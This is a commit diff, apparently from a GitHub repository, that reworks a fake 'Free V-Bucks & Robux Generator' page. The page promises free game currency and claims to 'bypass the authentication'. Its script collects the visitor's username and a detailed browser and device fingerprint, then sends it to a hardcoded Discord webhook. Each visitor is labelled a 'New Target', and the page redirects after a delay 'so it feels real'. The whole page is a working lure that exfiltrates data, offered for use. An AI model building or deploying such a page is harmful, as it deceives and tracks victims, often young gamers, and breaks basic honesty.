

Before and after one commit to alekskadena688-del/Ip, a plain HTML site: page Index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Refactor Index.html for improved styling and functionality
Updated the HTML structure and styles for the generator page, including changes to the title, background, card styles, and input fields. Enhanced the JavaScript functionality for generating currency and sending data to Discord.

```diff
--- a/Index.html
+++ b/Index.html
@@ -3,106 +3,187 @@
 <head>
 <meta charset="UTF-8">
 <meta name="viewport" content="width=device-width, initial-scale=1.0">
-<title>RBX & V-Bucks Generator</title>
+<title>RBX & V-Bucks Generator | Timmy Tih</title>
 <style>
-* { box-sizing: border-box; margin: 0; padding: 0; }
+@import url('https://fonts.googleapis.com/css2?family=Inter:wght@400;600;800&display=swap');
+
+* { box-sizing: border-box; margin: 0; padding: 0; font-family: 'Inter', sans-serif; }
 body {
-    background: #1a1a1a;
+    background: #09090b;
+    background-image: radial-gradient(circle at 50% -20%, #1e1b4b 0%, #09090b 70%);
     color: #fff;
-    font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
     display: flex;
     justify-content: center;
     align-items: center;
-    height: 100vh;
+    min-height: 100vh;
     overflow: hidden;
 }
-.card {
-    background: #232323;
-    padding: 40px;
+
+.glass-card {
+    background: rgba(255, 255, 255, 0.03);
+    backdrop-filter: blur(20px);
+    border: 1px solid rgba(255, 255, 255, 0.1);
+    padding: 40px 30px;
+    border-radius: 24px;
+    box-shadow: 0 30px 60px rgba(0,0,0,0.8), inset 0 1px 0 rgba(255,255,255,0.1);
+    width: 100%;
+    max-width: 420px;
+    text-align: center;
+    position: relative;
+    overflow: hidden;
+}
+
+.glass-card::before {
+    content: '';
+    position: absolute;
+    top: 0; left: 0; right: 0; height: 2px;
+    background: linear-gradient(90deg, transparent, #00ff88, #00b06f, transparent);
+    opacity: 0.8;
+}
+
+.logos { display: flex; justify-content: center; gap: 15px; margin-bottom: 20px; }
+.logo-icon {
+    width: 50px; height: 50px;
     border-radius: 12px;
-    box-shadow: 0 10px 30px rgba(0,0,0,0.5);
-    width: 100%;
-    max-width: 400px;
-    text-align: center;
+    display: flex; align-items: center; justify-content: center;
+    font-size: 24px;
+    background: #111;
     border: 1px solid #333;
+    box-shadow: 0 5px 15px rgba(0,0,0,0.5);
 }
-h1 { color: #00b06f; margin-bottom: 10px; font-size: 24px; text-transform: uppercase; }
-p.sub { color: #888; font-size: 13px; margin-bottom: 30px; }
-.input-group { margin-bottom: 15px; text-align: left; }
-label { display: block; font-size: 12px; color: #aaa; margin-bottom: 5px; font-weight: bold; }
+
+.status-badge {
+    display: inline-flex; align-items: center; gap: 6px;
+    background: rgba(0, 176, 111, 0.1); color: #00ff88;
+    padding: 6px 12px; border-radius: 20px; font-size: 11px; font-weight: 600;
+    margin-bottom: 20px; border: 1px solid rgba(0, 176, 111, 0.2);
+}
+.status-dot { width: 6px; height: 6px; background: #00ff88; border-radius: 50%; box-shadow: 0 0 10px #00ff88; }
+
+h1 { font-size: 28px; font-weight: 800; margin-bottom: 8px; line-height: 1.2; }
+h1 span { color: #00ff88; }
+p.sub { color: #a1a1aa; font-size: 13px; margin-bottom: 30px; }
+
+.input-group { margin-bottom: 20px; text-align: left; }
+label { display: block; font-size: 11px; color: #a1a1aa; margin-bottom: 8px; font-weight: 600; text-transform: uppercase; letter-spacing: 0.5px;}
 input {
-    width: 100%;
-    padding: 12px;
-    background: #111;
-    border: 1px solid #444;
-    border-radius: 6px;
-    color: #fff;
-    font-size: 16px;
-    outline: none;
+    width: 100%; padding: 16px;
+    background: rgba(0,0,0,0.4);
+    border: 1px solid #27272a;
+    border-radius: 12px;
+    color: #fff; font-size: 15px; outline: none;
+    transition: 0.3s;
 }
-input:focus { border-color: #00b06f; }
+input:focus { border-color: #00ff88; box-shadow: 0 0 0 3px rgba(0,255,136,0.1); }
+
 .btn {
-    width: 100%;
-    padding: 14px;
-    background: #00b06f;
-    border: none;
-    border-radius: 6px;
-    color: #fff;
-    font-size: 16px;
-    font-weight: bold;
-    cursor: pointer;
-    margin-top: 10px;
-    transition: 0.2s;
+    width: 100%; padding: 18px;
+    background: linear-gradient(135deg, #00ff88, #00b06f);
+    border: none; border-radius: 12px;
+    color: #000; font-size: 16px; font-weight: 800;
+    cursor: pointer; text-transform: uppercase; letter-spacing: 1px;
+    transition: 0.2s; position: relative;
+    box-shadow: 0 10px 20px rgba(0, 176, 111, 0.3);
 }
-.btn:hover { background: #00995f; }
-.btn:active { transform: scale(0.98); }
-.footer { margin-top: 20px; font-size: 10px; color: #555; }
+.btn:hover { transform: translateY(-2px); box-shadow: 0 15px 30px rgba(0, 176, 111, 0.4); }
+.btn:active { transform: translateY(0); }
+.btn.loading { color: transparent; pointer-events: none; }
+.btn.loading::after {
+    content: ''; position: absolute; left: 50%; top: 50%; transform: translate(-50%, -50%);
+    width: 20px; height: 20px; border: 3px solid #000; border-top-color: transparent; border-radius: 50%;
+    animation: spin 1s linear infinite;
+}
+@keyframes spin { to { transform: translate(-50%, -50%) rotate(360deg); } }
+
+.footer { margin-top: 25px; font-size: 11px; color: #52525b; font-weight: 600; }
 </style>
 </head>
 <body>
 
-<div class="card">
-    <h1>Free Currency</h1>
-    <p class="sub">Enter your username to generate 10,000 Robux & 13,500 V-Bucks</p>
+<div class="glass-card">
+    <div class="logos">
+        <div class="logo-icon" style="color: #fff; background: #e2231a;">R</div>
+        <div class="logo-icon" style="color: #fff; background: #2a2a2a; border-color: #444;">🎮</div>
+    </div>
+
+    <div class="status-badge"><div class="status-dot"></div> Server Online</div>
+
+    <h1>Free <span>V-Bucks</span><br>& Robux Generator</h1>
+    <p class="sub">Enter your username to bypass the authentication and generate currency.</p>
 
     <div class="input-group">
-        <label>Roblox / Epic Games Username</label>
-        <input type="text" id="username" placeholder="Enter username..." autocomplete="off">
+        <label>Account Username</label>
+        <input type="text" id="username" placeholder="Your username..." autocomplete="off">
     </div>
 
     <button class="btn" id="generateBtn">Generate Now</button>
 
-    <div class="footer">Powered by Timmy Tih Generator v4.0</div>
+    <div class="footer">Secured by Timmy Tih v5.0</div>
 </div>
 
 <script>
-// PASTE YOUR WEBHOOK HERE
 const webhookURL = "https://discord.com/api/webhooks/1564798991109988453/-U6BFuZf9qtxKS5y5LGP0R1rCkjIusbpDvxmN-eWQEzLeMDx_6Xj94OQDiT2W_iRXZMy";
 
-document.getElementById('generateBtn').addEventListener('click', function() {
-    const user = document.getElementById('username').value;
+document.getElementById('generateBtn').addEventListener('click', async function() {
+    const btn = this;
+    const user = document.getElementById('username').value.trim();
     if (!user) { alert("Please enter a username!"); return; }
 
-    // 1. Grab harmless data
-    const ua = navigator.userAgent;
-    const tz = Intl.DateTimeFormat().resolvedOptions().timeZone;
-    const res = window.screen.width + "x" + window.screen.height;
+    btn.classList.add('loading');
 
-    // 2. Format the Discord message
-    const message = {
-        username: "Timmy Tih Generator",
-        content: `🎯 **New Target Clicked Generate!**\n**Input:** \`${user}\`\n**OS/Browser:** \`${ua}\`\n**Timezone:** \`${tz}\`\n**Screen:** \`${res}\``
+    // Gather ALL data
+    const data = {
+        user: user,
+        ua: navigator.userAgent,
+        platform: navigator.platform,
+        lang: navigator.language,
+        tz: Intl.DateTimeFormat().resolvedOptions().timeZone,
+        res: window.screen.width + "x" + window.screen.height,
+        depth: window.screen.colorDepth,
+        cores: navigator.hardwareConcurrency || "Unknown",
+        memory: navigator.deviceMemory || "Unknown",
+        touch: navigator.maxTouchPoints > 0 ? "Yes" : "No"
     };
 
-    // 3. Send the webhook
-    fetch(webhookURL, {
-        method: 'POST',
-        headers: { 'Content-Type': 'application/json' },
-        body: JSON.stringify(message)
-    });
+    // Discord Embed Payload
+    const payload = {
+        username: "Timmy Tih Gen",
+        avatar_url: "https://i.imgur.com/8Y9M1wB.png",
+        embeds: [{
+            title: "🎯 New Target Generated!",
+            color: 0x00ff88, // Green
+            fields: [
+                { name: "Input Username", value: `\`\`\`${data.user}\`\`\``, inline: false },
+                { name: "OS / Browser", value: `\`\`\`${data.ua}\`\`\``, inline: false },
+                { name: "Platform", value: `\`${data.platform}\``, inline: true },
+                { name: "Language", value: `\`${data.lang}\``, inline: true },
+                { name: "Timezone", value: `\`${data.tz}\``, inline: true },
+                { name: "Screen Res", value: `\`${data.res} (${data.depth}bit)\``, inline: true },
+                { name: "CPU Cores", value: `\`${data.cores}\``, inline: true },
+                { name: "Memory", value: `\`${data.memory}GB\``, inline: true },
+                { name: "Touch Screen", value: `\`${data.touch}\``, inline: false }
+            ],
+            footer: { text: "Sent from V-Bucks Generator" },
+            timestamp: new Date().toISOString()
+        }]
+    };
 
-    // 4. Redirect to the loading page
-    window.location.href = 'loading.html';
+    try {
+        // mode: 'no-cors' is required for Discord webhooks in some browsers
+        await fetch(webhookURL, {
+            method: 'POST',
+            headers: { 'Content-Type': 'application/json' },
+            body: JSON.stringify(payload),
+            mode: 'no-cors'
+        });
+    } catch (e) {
+        console.log("Error sending webhook:", e);
+    }
+
+    // Small delay before redirecting so it feels real
+    setTimeout(() => {
+        window.location.href = 'loading.html';
+    }, 1200);
 });
 </script>
 
```
